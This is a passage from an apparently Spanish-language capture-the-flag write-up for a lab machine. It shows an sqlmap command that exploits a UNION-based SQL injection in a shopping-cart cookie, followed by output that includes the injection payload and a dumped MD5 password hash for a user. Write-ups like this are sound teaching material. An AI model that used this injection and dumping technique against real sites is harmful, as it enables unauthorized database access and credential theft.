 ```bash

[*] ending @ 13:50:59 /2023-06-13/
```

Ahora vamos a ver el hash que vimos en **burpsuite** para el usuario **james_mason** y nos dice que el hash es **MD5**

```bash
❯ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --technique U --union-cols 3 --batch -D checkout -T user --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.12#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:52:04 /2023-06-13/

custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[13:52:04] [INFO] resuming back-end DBMS 'mysql' 
[13:52:04] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns (custom)
    Payload: custom_cart={"' UNION ALL SELECT NULL,CONCAT(CONCAT('qbvxq','akhkRfbZMyGKFMPlIIUUEdVYusxoaPPPCiCcwGFl'),'qpxzq'),NULL-- gpdE":"1"}
---
[13:52:05] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0
back-end DBMS: MySQL 5 (MariaDB fork)
[13:52:05] [INFO] fetching columns for table 'user' in database 'checkout'
do you want to URL encode cookie values (implementation specific)? [Y/n] Y
[13:52:05] [INFO] fetching entries for table 'user' in database 'checkout'
[13:52:05] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[13:52:05] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[13:52:05] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[13:52:05] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[13:52:05] [INFO] starting 2 processes 
[13:52:49] [WARNING] no clear password(s) found                                                                                
Database: checkout
Table: user
[1 entry]
+----+----------------------------------+-------------+
| id | password                         | username    |
+----+----------------------------------+-------------+
| 1  | fc895d4eddc2fc12f995e18c865cf273 | james_mason |
```